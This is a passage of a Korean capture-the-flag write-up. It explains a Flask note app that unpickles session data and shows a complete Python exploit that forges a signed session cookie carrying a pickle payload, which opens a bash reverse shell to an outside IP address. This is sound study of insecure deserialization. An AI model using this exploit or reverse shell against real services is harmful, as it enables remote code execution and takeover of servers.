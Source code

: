 ```python
        savedata = flask.session.get('savedata', None)
        data = pickle.loads(base64.b64decode(savedata))
    except:
        data = [{"date": now(), "text": "", "title": "*New Note*"}]
    
    return data
```
/note를 보면 load() 함수를 호출하는 것을 볼 있습니다. load() 함수는 세션 값에서 `savedata`라는 값을 가져와서 base64 디코딩을 하고, pickle.loads() 함수의 인자로 넘겨주는 것을 볼 수 있습니다. 바로 여기서 RCE 취약점이 발생합니다. 해당 취약점에 자세한 내용은 구글을 통해 확인할 수 있습니다.
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-27%20오후%201.12.42.png?raw=true)
Flask 세션 관련 내용을 정확히 숙지하고 있지 않아서 구글에 검색을 해보니 `sessions.SecureCookieSessionInterface`, `Flask` 두 함수를 이용하면 시크릿 키를 이용해 세션 값을 만들어 줄 수 있는 것을 알 수 있었습니다. 물론 Flask 함수를 쓰지 않고 클래스를 생성해서도 줄 수 있습니다.

그러니 시크릿 키를 이용해서 세션 값을 변조하고, 변조한 세션 값을 가지고, /note/<int:id>로 접근을 해주면 load() 함수의 pickle.loads() 함수가 호출이 돼서 RCE가 발생하게 됩니다. 

<span style="color:#631F9C">&#62;</span> Exploit
```python
import os, sys, base64, pickle, requests
from flask import Flask
from flask.sessions import SecureCookieSessionInterface

cmd = "bash -c 'bash -i >& /dev/tcp/141.164.52.207/12345 0>&1'"
key_ = b'$\x9e\x15\x12\xd7\x1d\x9c\x01\x05\x91\x1332\xd9(m'
class RCE(object):
  def __reduce__(self):
    return (os.system,(cmd,))
def exploit():
  app = Flask("app")
  app.secret_key = key_
  
  sscsi = SecureCookieSessionInterface()
  signingSerializer = sscsi.get_signing_serializer(app)
  
  session = signingSerializer.dumps({'savedata':base64.b64encode(pickle.dumps(RCE()))})
  print("Sessions : {}".format(session))
  requests.get('http://localhost:8001/note/1', cookies = {'session':session})

if __name__ == '__main__':
  print("[+] RCE in Pickle Start")
  exploit()
```
<strong>그래서 파이썬을 이용해서 위와 같이 RCE POC를 작성해주었습니다. 처음에는 `nc`를 이용해서 쉘을 딸려 했지만 잘 되지 않았습니다. 그래서 그냥 코드 미스인 줄 알았는데 `bash -c`를 이용해서 쉘을 따주니 잘 되었습니다.</strong>
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-27%20오후%201.35.23.png?raw=true)
<strong>RCE POC를 돌려주니 쉘이 잘 따지는 것을 볼 수 있고, flag도 볼 수 있었습니다. ( nc 명령어를 확인해보니 명령어 자체가 없었음 )</strong>

> FLAG : zer0pts{fl4sk_s3ss10n_4nd_pyth0n_RCE}

---

## (Web) Can you guess it [345pts]
